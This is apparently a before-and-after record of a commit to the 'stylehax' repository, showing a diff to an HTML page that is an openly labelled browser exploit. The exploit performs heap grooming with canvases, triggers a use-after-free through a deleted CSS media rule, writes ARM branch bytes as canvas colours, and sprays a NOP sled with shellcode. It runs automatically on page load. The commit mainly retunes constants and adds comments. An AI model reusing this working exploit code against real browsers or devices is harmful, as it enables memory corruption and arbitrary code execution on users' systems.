

Before and after one commit to nathanfarlow/stylehax, a plain HTML site: page template.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update template

```diff
--- a/template.html
+++ b/template.html
@@ -1,3 +1,6 @@
+<!-- stylehax by nathan 2023 -->
+<!-- https://github.com/nathanfarlow/stylehax -->
+
 <html>
 
 <head>
@@ -15,10 +18,10 @@
 
       function exploit() {
          var canvases = [];
-         var N = 0x900 / 2;
-         var obj_size = 0x28 * 2;
+         var N = 0x480;
+         var obj_size = 0x50;
 
-         // create a bunch of canvases
+         // create a bunch of canvases for heap magic
          for (var i = 0; i <= N; i++) {
             var a = document.createElement("canvas");
             a.width = obj_size / 4;
@@ -30,6 +33,7 @@
          var styleSheet = document.getElementById('style1').sheet;
          var mediaRule = styleSheet.cssRules[0];
 
+         // heap magic
          var arr = new Array();
          for (var i = 0; i <= N; i++) {
             c = canvases[i].getContext("2d");
@@ -51,11 +55,12 @@
          mediaRule.deleteRule(0);
 
          // try to reclaim memory of freed object with jump shellcode
+         // (more heap magic)
          var arr = new Array();
          for (var i = 0; i <= N; i++) {
             canvases[i].width = canvases[i].width;
             c = canvases[i].getContext("2d");
-            // FE FF 13 EA -- b #0x500000
+            // FE FF 13 EA -- b #0x500000 -- bootstrap: jumps to nop sled
             c.fillStyle = "rgba(254, 255, 19, 0.918)"
             c.fillRect(0, 0, obj_size / 4, 1);
             arr[i] = c.getImageData(0, 0, obj_size / 4, 1).data[0];
@@ -66,11 +71,13 @@
             nops += nops;
          }
 
+         // spray nopsleds and shellcode
          var a = new Array();
          for (var i = 0; i < 0x40; i++) {
             a[i] = nops + shellcode;
          }
 
+         // accessing this property causes jump to bootstrap
          mediaRule.cssRules.length;
          alert("exploit failed. reboot and try again")
       }
@@ -78,9 +85,10 @@
 </head>
 
 <body onload="exploit()">
-   <p>close the popup when it appears.</p>
-   <p>othwerise, don't touch anything.</p>
-   <p>if waited > 30 seconds, reboot and try again.</p>
+   <div style="width: 250px">
+      <p>stylehax by nathan</p>
+      <p>exploit in progress :)</p>
+   </div>
 </body>
 
 </html>
```
